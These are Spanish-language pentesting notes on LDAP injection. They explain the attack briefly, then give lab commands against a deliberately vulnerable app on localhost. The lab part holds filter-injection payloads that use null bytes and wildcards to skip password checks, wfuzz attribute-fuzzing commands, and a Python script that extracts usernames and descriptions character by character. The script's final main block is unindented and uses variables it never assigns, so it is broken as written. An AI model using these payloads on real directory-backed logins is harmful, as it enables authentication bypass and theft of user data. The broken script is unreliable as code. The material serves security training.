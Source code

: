 # Inyecciones LDAP

Tags: #LDAP #OWASP #Explotacion

* [LDAP](https://www.profesionalreview.com/2019/01/05/ldap/)

Las inyecciones **LDAP** (**Protocolo de Directorio Ligero**) son un tipo de ataque en el que se aprovechan las vulnerabilidades en las aplicaciones web que interactúan con un servidor LDAP. El servidor LDAP es un directorio que se utiliza para almacenar información de usuarios y recursos en una red.

La inyección LDAP funciona mediante la inserción de comandos LDAP maliciosos en los campos de entrada de una aplicación web, que luego son enviados al servidor LDAP para su procesamiento. Si la aplicación web no está diseñada adecuadamente para manejar la entrada del usuario, un atacante puede aprovechar esta debilidad para realizar operaciones no autorizadas en el servidor LDAP.

Al igual que las inyecciones SQL y NoSQL, las inyecciones LDAP pueden ser muy peligrosas. Algunos ejemplos de lo que un atacante podría lograr mediante una inyección LDAP incluyen:

-   Acceder a información de usuarios o recursos que no debería tener acceso.
-   Realizar cambios no autorizados en la base de datos del servidor LDAP, como agregar o eliminar usuarios o recursos.
-   Realizar operaciones maliciosas en la red, como lanzar ataques de phishing o instalar software malicioso en los sistemas de la red.

Para evitar las inyecciones LDAP, las aplicaciones web que interactúan con un servidor LDAP deben validar y limpiar adecuadamente la entrada del usuario antes de enviarla al servidor LDAP. Esto incluye la validación de la sintaxis de los campos de entrada, la eliminación de caracteres especiales y la limitación de los comandos que pueden ser ejecutados en el servidor LDAP.

También es importante que las aplicaciones web se ejecuten con privilegios mínimos en la red y que se monitoreen regularmente las actividades del servidor LDAP para detectar posibles inyecciones.

A continuación, se proporciona el enlace directo al proyecto de GitHub que nos descargamos para desplegar un laboratorio práctico donde poder ejecutar esta vulnerabilidad:

-   **LDAP-Injection-Vuln-App**: [https://github.com/motikan2010/LDAP-Injection-Vuln-App](https://github.com/motikan2010/LDAP-Injection-Vuln-App)


## Comandos

```bash
❯ ldapsearch -x -H ldap://localhost -b dc=example,dc=org -D "cn=admin,dc=example,dc=org" -w admin 'cn=admin'   # Podemos ver informacion del usuario admin 

	# b,dc,dc = Base de busqueda, que el dominio seria example.org
	# D = Nombre distinguido
	# 1er_cn = Usuario a autenticar
	# w = Password 
	# x = Autenticacion simple (Usuario, Passwd)
	# 2do_cn = Criterio de busqueda y si existe que nos reporte la informacion  
```

```bash
❯ ldapsearch -x -H ldap://localhost -b dc=example,dc=org -D "cn=admin,dc=example,dc=org" -w admin 'cn=omar'    # Para enumerar un usuario especifico como 'omar'
```

```bash
❯ ldapsearch -x -H ldap://localhost -b dc=example,dc=org -D "cn=admin,dc=example,dc=org" -w admin '(&(cn=omar)(description=LDAP*))'

	# (&(cn=omar)(description=LDAP*)) = Le decimos que el usuario a buscar es omar 'y' su descripcion es LDAP, con * le decimos que tiene mas contenido despues de LDAP
	# (|(cn=omar)(description=LDAP*)) = Le decimos que el usuario a buscar es omar 'o' su descripcion es LDAP, con * le decimos que tiene mas contenido despues de LDAP
```

```bash
❯ ldapadd -x -H ldap://localhost -D "cn=admin,dc=example,dc=org" -w admin -f newuser.ldif  # Creara un usuario en base a un archivo que le pasemos
```

```python
❯ nvim newuser.ldif
	dn: uid=omar,cd=example,dc=org
	uid: omar
	cn: omar
	sn: 3
	objectClass: top
	objectClass: posixAccount
	objectClass: inetOrgPerson
	loginShell: /bin/bash
	homeDirectory: /home/omar
	uidNumber: 14583102
	gidNumber: 14564100
	userPassword: omar123                      # Automaticamente pasara la passwd a base64
	mail: omar@omarcorp.com
	description: Es una prueba 
	telephoneNumber: 6467548712
```

## Inyecciones
```bash
❯ id=a* &password=*                                  # Nos ayuda a decir que existe cualquier tipo de data y por ende nos ayuda a enumerar usuarios validos

	# a* = Decimos que el usuario empieza con 'a' y despues contiene data, podria ser 'admin'
```

```bash
❯ id=admin))%00 &password=test                        # Es como si hicieramos esto = (&(cn=admin))%00)(userPassword=*))

	# %00 = Es un Null byte, que con )) nos ayuda a comentar el resto de la query y no lea la parte de la passwd
```

```bash
❯ /usr/share/seclists/Fuzzing/LDAP-openldap-attributes.txt            # Diccionario con atributos para LDAP
```

Enviaremos data por **POST** para hacer el Fuzzing de los atributos
```bash
❯ wfuzz -c --hh=439 -w /usr/share/seclists/Fuzzing/LDAP-openldap-attributes.txt -d 'user_id=admin)(FUZZ=*))%00&password=*&login=1&submit=Submit' http://localhost:8888

	# FUZZ = Ahi se sustituira el diccionario, en donde colocara todos los atributos y los que hagan match con cualquier data, nos mostrara el resultado
	# La query original es esta 'user_id=admin&password=admin&login=1&submit=Submit'
	# %00 = Colocamos el Null byte y los )) para comentar el resto de la query y no nos interprete la password
	# hh = Ocultar los caracteres que tengan como resultado 439
```

```bash
❯ wfuzz -c -w /usr/share/seclists/Fuzzing/LDAP-openldap-attributes.txt -d 'user_id=*)(FUZZ=*))%00&password=*&login=1&submit=Submit' http://localhost:8888

	# FUZZ = Ahi se sustituira el diccionario, en donde colocara todos los atributos y los que hagan match con cualquier data, nos mostrara el resultado
	# user_id = * es para enumerar todos los usuarios, ya que esta haciendo match con data
	# La query original es esta 'user_id=admin&password=admin&login=1&submit=Submit'
	# %00 = Colocamos el Null byte y los )) para comentar el resto de la query y no nos interprete la password
```

Para hacer Fuzzing a un atributo especifico, en este caso para el telephoneNumber
```bash
❯ wfuzz -c --hh=439 -z range,0-9 -d 'user_id=omar)(telephoneNumber=FUZZ*))%00&password=*&login=1&submit=Submit' http://localhost:8888

	# Nos descubriria siempre un numero, y lo debemos de agregar antes de la palabra FUZZ, asi hasta encontrar el numero final
	# FUZZ = Ahi se sustituira el diccionario
	# z = Diccionario de tipo range 
	# user_id = Buscar por un usuario especifico
	# La query original es esta 'user_id=admin&password=admin&login=1&submit=Submit'
	# %00 = Colocamos el Null byte y los )) para comentar el resto de la query y no nos interprete la password
```

Script para enumerar usuario validos, pero estos tienen atributos como:
* mail
* telephoneNumber
```python
❯ nvim ldapi.py
	#!/usr/bin/python3
	from pwn import *
	import requests, time, sys, signal, string

	def def_handler(sig, frame):
		print("\n\n[!] Saliendo...\n")
		sys.exit(1)

	# Ctrl + c
	signal.signal(signal.SIGINT, def_handler)

	# Variables globales
	main_url = "http://localhost:8888/"

	def getInitialUsers():
		characters = string.ascii_lowercase
		initial_users = []
		headers = {'Content-Type': 'application/x-www-form-urlencoded'}
		for character in characters:
			post_data = "user_id={}*&password=*&login=1&submit=Submit".format(character)
			r = requests.post(main_url, headers=headers, data=post_data, allow_redirects=False)
			if r.status_code == 301:
				initial_users.append(character)
		return initial_users

	def getUsers(initial_users):
		characters = string.ascii_lowercase + string.digits
		headers = {'Content-Type': 'application/x-www-form-urlencoded'}
		valid_users = []
		for first_character in initial_users: 
			user = ""
			for position in range(0, 15):     
				for character in characters:
					post_data = "user_id={}{}{}*&password=*&login=1&submit=Submit".format(first_character, user, character)
					r = requests.post(main_url, headers=headers, data=post_data, allow_redirects=False)
					if r.status_code == 301:
						user += character 
						break
			valid_users.append(first_character + user)
		print("\n")
		for user in valid_users:
			log.info("Usuario valido encontrado: %s" % user)
		print("\n")
		return valid_users

	def getDescription(user):                   # Para un usuario especifico
		characters = string.ascii_lowercase + ' '
		headers = {'Content-Type': 'application/x-www-form-urlencoded'}	
		description = ""
		p1 = log.progress("Fuerza Bruta")
		p1.status("Iniciando fuerza bruta")
		time.sleep(2)
		p2 = log.progress("Descripcion")
		for position in range(0, 50):
			for character in characters:
				post_data = "user_id={})(description={}{}*))%00*&password=*&login=1&submit=Submit".format(user, description, character)
				r = requests.post(main_url, headers=headers, data=post_data, allow_redirects=False)
				if r.status_code == 301:
					description += character 
					p2.status(description)
					break
		p1.success("Proceso de Fuerza Bruta concluido")
		p2.success("La descripcion del usuario es: %s" % description)

	if __name__ == '__main__':
	getInitialUsers()
	getUsers(initial_users)
	for i in range(0, 5):
		getDescription(valid_users[i])
```